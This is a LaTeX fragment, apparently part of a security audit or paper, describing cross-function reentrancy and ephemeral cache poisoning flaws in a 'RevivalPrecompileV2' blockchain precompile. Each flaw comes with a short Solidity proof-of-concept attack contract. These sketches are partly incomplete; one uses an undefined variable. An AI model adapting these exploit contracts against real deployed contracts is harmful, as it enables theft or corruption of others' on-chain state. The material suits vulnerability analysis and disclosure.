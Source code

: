 \documentclass{article}
\begin{document}
\subsection{Smart Contract Vulnerabilities}

\subsubsection{Cross-Function Reentrancy}

The RevivalPrecompileV2's reentrancy protection, while implementing function-specific locks, remains vulnerable to sophisticated cross-function attacks \cite{deshpande2023}. An attacker can exploit callback mechanisms during the revival process to corrupt the ephemeral cache state.

\begin{lstlisting}[language=C,caption={Cross-Function Reentrancy Exploit},label={lst:reentrancy}]
contract ReentrancyExploit {
    RevivalPrecompileV2 precompile;
    bytes32[] keysToPersist;
    bool attackPhase = false;

    function attack(Witness[] calldata wits, bytes32[] calldata keys) external payable {
        precompile = RevivalPrecompileV2(msg.sender);
        keysToPersist = keys;
        attackPhase = true;
        precompile.revive{value: msg.value}(wits);
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        if (attackPhase) {
            attackPhase = false;
            precompile.batchPersist{value: 1 ether}(keysToPersist);
        }
        return this.onERC721Received.selector;
    }
}
\end{lstlisting}

\subsubsection{Ephemeral Cache Poisoning}

The specification fails to define behavior when multiple witnesses target the same state key within a single transaction. This enables cache poisoning attacks where an attacker can manipulate the temporal state used by contract logic.

\begin{lstlisting}[language=C,caption={Cache Poisoning Attack},label={lst:cache-poison}]
contract CachePoison {
    function execute(Witness calldata wit_old, Witness calldata wit_new) external payable {
        RevivalPrecompileV2 precompile = RevivalPrecompileV2(PRECOMPILE_ADDR);
        
        // Revive with new witness
        precompile.revive{value: 0.1 ether}(wit_new);
        
        // Victim contract reads new_value
        Victim.doSomething();

        // Overwrite with older witness
        precompile.revive{value: 0.1 ether}(wit_old);

        // Persist the poisoned state
        precompile.batchPersist{value: 1 ether}(new bytes32[](key));
    }
}
\end{lstlisting}
\end{document}
